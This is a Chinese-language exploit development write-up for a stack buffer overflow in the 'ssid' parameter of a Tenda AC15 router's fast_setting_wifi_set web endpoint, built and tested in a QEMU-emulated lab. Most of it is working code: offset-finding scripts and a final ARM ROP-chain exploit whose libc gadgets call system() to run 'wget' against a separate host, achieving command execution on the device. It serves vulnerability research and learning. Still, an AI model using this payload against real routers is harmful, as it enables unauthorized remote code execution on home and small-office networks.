







# AC15_stackoverflow


本机网卡配置
```
sudo tunctl -t tap0 -u iot
sudo ifconfig tap0 192.168.0.1/24 up
```


系统模拟

```
sudo qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```


打包传进系统

```
mount --bind /proc/ proc/ #将宿主系统的/proc文件系统绑定到当前目录下proc/中
mount --bind /dev/ dev/ #将宿主系统的/dev文件系统挂载到当前目录下dev/中
mount --bind /sys/ sys/ #将宿主系统的/sys文件系统挂载到当前目录下sys/中
chroot . sh #将当前目录 . 设置为新的根文件系统，并运行sh


ip link add br0 type dummy
ifconfig br0 192.168.0.3/24 up
```


## ac15test.py

找到输入点后，测试偏移
```

#!/usr/bin/python3

import requests
from pwn import *


target_ip = "192.168.0.1"
target_port = 80  


test=b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'


url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
cookie = {"cookie": "password=cmdcvb"}

#data = {"ssid": payload}
data = {"ssid": test}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)

```



发现0xff5ca50c这个位置，要讲r2中的值，放到r1寄存器中的指针地址  指向的位置中
因为现在r1 ,被我们覆盖为了一个yaaa,而并非一个可写地址，所以发生了段错误 。

所以这里我们在libc库中 ，找一个rodata段的地址，程序能将数据写入这里，就会继续执行了。


libc.so.0  地址为0x76DAB000



libc.so.0中的.rodata段，找了个可写的地址。


## ac15test2.py

找到输入点后，测试偏移
```

#!/usr/bin/python3

import requests
from pwn import *


target_ip = "192.168.0.1"
target_port = 80  


libc_base = 0x76DAB000   //libc.so
write_addr= 0x000641E8


test=b'a'*0x60+ p32(write_addr+libc_base)+ b'gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'

url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
cookie = {"cookie": "password=cmdcvb"}

#data = {"ssid": payload}
data = {"ssid": test}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)


```


这里继续向下执行 ，定位跳转的地址。


我在v23处，地址为00067720下断点。
因为这里前面三个函数会执行很久。
send_msg_to_netctrl(24, v4);
send_wifi_msg_handle(1, 0);
send_wifi_msg_handle(1, 1);


执行到0x6775c处，这里会pop    {r4, r5, fp, pc} 



我们执行该步 ，发现报错了



发现发生段错误后，报错地方的值为0x6261616c，计算偏移是144。
我最开始以为这里是跳转到0x6261616c的时候发生的段错误。
但实际上，这里是在pop    {r4, r5, fp, pc} 时，，pop fp的时候，我们让fp=0x6261616c。  而fp是栈指针，如果这里给它的不是一个地址，就会直接发生段错误。
我们在执行pop    {r4, r5, fp, pc} 后，会直接跳转到pc所指向的地址。而pc这里被赋值为maab，所以是实际偏移量应该为148.

---

计算好偏移后，exp如下
```
#!/usr/bin/python3

import requests
from pwn import *

target_ip = "192.168.0.3"
target_port = 80  


cmd = b"wget http://192.168.0.1:8000/"
write_addr= 0x000641E8
libc_base = 0x76DAB000
system_offset = 0x5A270
readable_addr_offset = 0x64144
pop_r3_pc = 0x18298
mov_ro_ret_r3_offset = 0x40CB8


payload=b'a'*0x60+ p32(write_addr+libc_base)+ b'gaabhaabiaabjaabkaablaab'+p32(pop_r3_pc+libc_base) + p32(libc_base + system_offset)  + p32(mov_ro_ret_r3_offset+libc_base) + cmd 

url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
cookie = {"cookie": "password=cmdcvb"}


data = {"ssid": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
```

---


让我们动态调试，解释下rop链的运行。



这里首先会跳到pc指向的地址0x76dc3298，也就是我们的第一个rop块pop_r3_pc。



这会讲system的地址，存到r3中，
将0x76debcb8，也就是mov_ro_ret_r3_offset的地址存到pc.
执行后，跳转到mov_ro_ret_r3_offset地址


接下来，会将sp指向的指针地址给r0,所以这里r0就指向了wget http://192.168.0.1:8000/  
接下来跳转到r3,而r3中就是system的地址
所以相当于执行了system('wget http://192.168.0.1:8000/  ')


成功执行了我们的命令。



---


